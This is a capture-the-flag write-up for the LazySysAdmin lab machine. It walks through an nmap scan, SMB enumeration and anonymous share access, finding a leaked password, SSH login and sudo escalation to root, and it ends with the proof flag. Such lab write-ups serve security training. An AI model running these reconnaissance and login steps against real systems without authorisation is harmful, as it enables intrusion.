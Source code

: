 LazyAdmin: 1 write-up


scan host:

nmap -sV -A -sC -p- 192.168.2.90

nmap result:

	PORT     STATE SERVICE     VERSION
	22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
	|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
	|_  256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
	80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
	|_http-generator: Silex v2.2.7
	| http-robots.txt: 4 disallowed entries 
	|_/old/ /test/ /TR2/ /Backnode_files/
	|_http-server-header: Apache/2.4.7 (Ubuntu)
	|_http-title: Backnode
	139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
	445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
	3306/tcp open  mysql       MySQL (unauthorized)
	6667/tcp open  irc         InspIRCd
	| irc-info: 
	|   server: Admin.local
	|   users: 1
	|   servers: 1
	|   chans: 0
	|   lusers: 1
	|   lservers: 0
	|   source ident: nmap
	|   source host: 192.168.2.38
	|_  error: Closing link: (nmap@192.168.2.38) [Client exited]
	Service Info: Host: Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: lazysysadmin
	|   NetBIOS computer name: LAZYSYSADMIN
	|   Domain name: 
	|   FQDN: lazysysadmin
	|_  System time: 2017-11-01T04:00:05+10:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_smbv2-enabled: Server supports SMBv2 protocol



enum smb: using enum4linux tool (./enum4linux.pl -U 192.168.2.90)

from enum result see a user on the system: togie


[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\togie (Local User)


also smb shares:


	WARNING: The "syslog" option is deprecated
	Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]
	Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]

		Sharename       Type      Comment
		---------       ----      -------
		print$          Disk      Printer Drivers
		share$          Disk      Sumshare
		IPC$            IPC       IPC Service (Web server)

		Server               Comment



connect to smb share:


	smbclient //192.168.2.90/share$


see file list:


	smb: \> 
	smb: \> dir
	  .                                   D        0  Tue Aug 15 07:05:52 2017
	  ..                                  D        0  Mon Aug 14 08:34:47 2017
	  wordpress                           D        0  Tue Oct 31 13:49:52 2017
	  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
	  wp                                  D        0  Tue Aug 15 06:51:23 2017
	  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
	  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
	  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
	  apache                              D        0  Mon Aug 14 08:35:19 2017
	  index.html                          N    36072  Sun Aug  6 01:02:15 2017
	  info.php                            N       20  Tue Aug 15 06:55:19 2017
	  test                                D        0  Mon Aug 14 08:35:10 2017
	  old                                 D        0  Mon Aug 14 08:35:13 2017




Open deets.txt in browser: http://192.168.2.90/deets.txt
"
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
"


login to system over ssh with user:togie and password: 12345


togie user in sudories so just execute sudo su to become a root user:


get proof.txt in root:


WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/lazysysadmin-1/proof.png)